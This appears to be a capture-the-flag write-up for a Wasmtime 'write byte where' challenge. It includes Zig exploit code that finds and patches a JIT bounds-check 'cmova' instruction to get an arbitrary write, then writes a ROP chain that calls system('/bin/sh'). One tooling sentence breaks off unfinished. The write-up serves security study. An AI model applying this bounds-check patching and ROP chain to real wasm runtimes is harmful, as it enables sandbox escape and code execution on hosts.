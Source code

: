 # Writeup

## Challenge summary

This is a classic write byte where challenge. You get one write to whatever address you would like (even read only addresses work).
The wbw function patches itself with ret instructions making it hard or impossible (i tested it) to use it multiple times.
The goal is to craft yourself a primitive with which you can do arbitrary writes to get a shell and read the flag.

The intended solution does that by patching away a bound check in wasm module jit code.

## Tooling

Enabling the memory64 proposal makes this challenge both easier and harder.

Harder because you need to use a compiler that support wasm64-freestanding/wasm64-unknown-unknown.
LLVM supports it so using clang, rustc, zig, etc. is 
Harder because wasm64-wasi is not a thing yet, so no wasi, no Input/Output.
Easier because you can index the whole memory space without any hassle.

To use wabt tools like `wasm2wat` or `wat2wasm` one has to use the `--enable-memory64` flag.

## Solution

### 1. Find memory offsets

With the inspect function one can inspect the memory of the wasm_host. And find all relevant mappings.

### 2. Craft yourself a write primitive

I am sure there are multiple avenues to get a usable write primitive for further exploitation.
The one the intended solution uses is to patch the generated code of our wasm module.
That can be a bit tricky, because offsets and instructions easily change when you change your wasm module.

The intended solution has a dummy write function `victim`.
Wasmtime does runtime bounds checks for all load and store instructions. With memory64, the code gen emits this `cmova` instruction that clears
the target register to 0 leading to a null deref if the address would be out of bounds.
The exploit works by searching for a certain marker and then the first `cmova` instruction.

```zig
noinline fn victim(addr: u64, val: u64) void {
    const write_addr: *u64 = @ptrFromInt(addr);
    _ = insp(addr); // dummy just to make the function a bit easier to spot
    write_addr.* = val;
}

const MARKER = 0x42424242;
fn find_victim(mem: MemLocations) i64 {
    var found_ourselfs = false;
    for (0..0x10000) |i| {
        const addr = mem.xgen + i;
        const val = insp(addr);
        if ((val & 0xffffffff) == MARKER) {
            found_ourselfs = true;
            continue;
        } else if (found_ourselfs and (val & 0xffff == 0x470f or val & 0xffff == 0x430f)) { // find cmova/cmovae
            if (val & 0xff0000 == 0) {
                // This is our own check
                continue;
            }
            return @intCast(addr);
        }
    }
    return 0;
}
```

### 3. ROP

This `cmova` instruction gets patched to use a different target register, making our `victim` function an arbitrary write primitive.
We are now able to write a ropchain to the stack and get a shell.

```zig
{
    ...
    victim(@intCast(rip_addr - module_offset), mem.libc + POP_RDI_OFFSET);
    victim(@intCast(rip_addr - module_offset + 8), mem.libc + BINSH_OFFSET);
    victim(@intCast(rip_addr - module_offset + 0x10), mem.libc + POP_RDI_OFFSET + 1); // ret for alignment
    victim(@intCast(rip_addr - module_offset + 0x18), mem.libc + SYSTEM_OFFSET);
}
```


